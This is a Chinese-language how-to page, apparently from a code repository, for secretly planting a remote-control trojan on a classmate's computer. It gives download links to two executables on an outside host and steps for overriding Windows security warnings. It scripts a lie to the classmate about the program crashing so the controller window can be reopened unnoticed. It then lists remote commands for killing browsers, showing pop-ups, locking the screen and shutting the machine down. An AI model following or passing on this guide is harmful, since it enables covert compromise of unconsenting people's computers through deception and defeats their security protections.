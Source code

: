 # 让同伴打开以下网站：

[https://b.helloosme.eu.org/](https://b.helloosme.eu.org/)

点击“激活方法”，你将作为同伴的同伴，下载两个程序：

[https://osfiles.pages.dev/register.exe](https://osfiles.pages.dev/register.exe)

[https://osfiles.pages.dev/showmsg.exe](https://osfiles.pages.dev/showmsg.exe)

<h2>Q:出现"通常不会下载某某.exe"怎么办？</h2>
A:别担心，这是因为程序是自己写的，没有人家大公司的认证证书。<br>
鼠标悬停在那行字上，向右移动到那三个点上，点击<tt>保留</tt>，再点击<tt>显示详细信息</tt>，再点击<tt>仍然保留</tt>

打开`此电脑`，然后打开`C:\`，然后打开`Users`文件夹或`用户`文件夹，然后打开`Lenovo`文件夹，然后打开`下载`文件夹或`Downloads`文件夹;

打开`register.exe`然后点击最小化图标:  
![](https://questionimg.3d66.com//answers/question/20210815/4717e3433d32f4dda61aa8dba7c61f3d.gif)

记住一定要比同伴的`ob.exe`先打开，同伴打开`ob.exe`后叫其稍等，等出现以下弹窗

 <h2>Q:出现"windows已保护你的电脑"怎么办？</h2>
A:别担心，这是因为程序是自己写的，没有人家大公司的认证证书。<br>
点击"更多信息"，再点击"仍要运行"即可。

解决"windows已保护你的电脑"后等一会，同伴会发现程序一直没出现弹窗，此时对同伴谎称程序崩溃，要让我重新开发，等同伴看视频/做题时，重新调出那个register.exe窗口（屏幕最底下那个黑框框里有个register.exe程序图标，点一下）

当程序窗口内出现`目标连接成功`后即为成功植入木马。

# 很好，你做到了！
同学电脑成功被你植入了木马，现在在那个register.exe窗口里输入以下命令玩玩同学吧（

以下命令将远程执行在同学电脑上！！！

关闭chrome浏览器(谷歌浏览器)【推荐执行这个命令】
```
taskkill -f -im chrome.exe
```
弹窗
```
msg [消息]
```
锁屏
```
lock
```
关机
```
shutdown -s -t [时间，单位为秒，至少为60]
```
重启
```
shutdown -r -t [时间，单位为秒，至少为60]
```
取消关机/重启:
```
shutdown -a
```
关闭edge浏览器
```
taskkill -f -im msedge.exe
```
